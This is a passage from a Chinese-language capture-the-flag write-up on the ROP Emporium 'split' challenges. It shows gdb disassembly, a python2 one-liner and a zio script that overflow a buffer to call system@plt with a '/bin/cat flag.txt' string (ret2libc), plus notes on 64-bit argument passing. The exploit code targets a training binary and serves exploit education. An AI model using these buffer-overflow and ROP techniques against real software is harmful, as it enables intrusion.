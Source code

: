 ```
   0xf7df9c76 <+38>:    call   0xf7df9700 <do_system>
   0xf7df9c7b <+43>:    test   eax,eax
   0xf7df9c7d <+45>:    sete   al
   0xf7df9c80 <+48>:    add    esp,0xc
   0xf7df9c83 <+51>:    movzx  eax,al
   0xf7df9c86 <+54>:    ret    
End of assembler dump.
gdb-peda$ x/5x 0x08048430
0x8048430 <system@plt>: 0xa01825ff      0x18680804      0xe9000000      0xffffffb0
0x8048440 <__libc_start_main@plt>:      0xa01c25ff
```
其实这里讲 plt 不是很确切，因为 system 使用太频繁，在我们使用它之前，它就已经绑定了，在后面的挑战中我们会遇到没有绑定的情况。

两种 payload 如下：
```
$ python2 -c "print 'A'*44 + '\x57\x86\x04\x08' + '\x30\xa0\x04\x08'" | ./split32 
...
> ROPE{a_placeholder_32byte_flag!}
```
```python
from zio import *

payload  = ""
payload += "A"*44
payload += l32(0x08048430)
payload += "BBBB"
payload += l32(0x0804a030)

io = zio('./split32')
io.writeline(payload)
io.read()
```
注意 "BBBB" 是新的返回地址，如果函数 ret，就会执行 "BBBB" 处的指令，通常这里会放置一些 `pop;pop;ret` 之类的指令地址，以平衡堆栈。从 system() 函数中也能看出来，它现将 esp 减去 0xc，再取地址 esp+0x10 处的指令，也就是 "BBBB" 的后一个，即字符串的地址。因为 `system()` 是 libc 中的函数，所以这种方法称作 ret2libc。

#### split
```
$ rabin2 -z split
...
vaddr=0x00601060 paddr=0x00001060 ordinal=000 sz=18 len=17 section=.data type=ascii string=/bin/cat flag.txt
```
字符串地址在 `0x00601060`。

```
gdb-peda$ disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400807 <+0>:     push   rbp
   0x0000000000400808 <+1>:     mov    rbp,rsp
   0x000000000040080b <+4>:     mov    edi,0x4008ff
   0x0000000000400810 <+9>:     call   0x4005e0 <system@plt>
   0x0000000000400815 <+14>:    nop
   0x0000000000400816 <+15>:    pop    rbp
   0x0000000000400817 <+16>:    ret    
End of assembler dump.
```
64 位程序的第一个参数通过 edi 传递，所以我们在调用需要一个 gadgets 来将字符串的地址存进 edi。
